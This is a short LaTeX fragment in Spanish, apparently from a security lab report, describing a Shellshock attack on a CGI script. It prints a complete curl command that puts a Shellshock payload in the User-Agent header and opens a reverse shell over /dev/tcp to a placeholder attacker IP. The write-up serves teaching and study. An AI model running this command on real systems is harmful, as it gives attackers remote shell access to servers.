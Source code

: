 \documentclass[10pt,a4paper]{article}
\begin{document}
\newpage
El problema de este ataque recae en conseguir ejecutar el comando en la máquina remota cuando no se tiene acceso físico a la misma. Para ello se utiliza el ataque \emph{Shellshock}, mediante el cual se pueden ejecutar comandos de forma remota.
Para poder realizar el ataque, se ejecutará el siguiente comando desde la máquina atacante, mediante el cual se conseguirá establecer un \emph{reverse shell} en la máquina indicada.\\

\begin{lstlisting}
curl -v \ 
-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; \ 
/bin/bash -i > /dev/tcp/_IP_MAQUINA_ATACANTE/9090 0<&1 2>&1;" \
http://_IP_MAQUINA_VICTIMA/cgi-bin/myprog.cg
\end{lstlisting}
\end{document}
